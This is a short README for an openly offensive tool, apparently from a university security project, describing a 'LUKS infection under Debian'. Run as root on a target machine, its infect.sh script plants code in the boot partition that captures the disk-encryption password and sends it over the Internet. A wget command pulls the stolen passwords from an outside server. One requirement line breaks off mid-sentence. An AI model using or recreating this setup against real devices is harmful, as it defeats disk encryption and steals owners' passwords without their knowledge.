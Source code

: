 LUKS infection under Debian
===========================

## Requirements

- A physical access on the targeted device to boot as root on an USB key,
  or a root access on any Unix system on the device.
- The targeted device must use LUKS and a Debian-like operating system (you
  can try on other init based Unix system, but nothing is guaranteed...).
- Please make sure that every shell script in this directory


## Set up

Run `infect.sh` as root to automatically infect the boot partition using LUKS on
this computer.
  
  
## Password retrieval

The password will be sent over the Internet 60 seconds after rc.local has been
executed (as long as the targeted device is connected).

It can be retrieved here:
  
    wget http://uuu.enseirb-matmeca.fr/~fmonjalet/secu/read.php
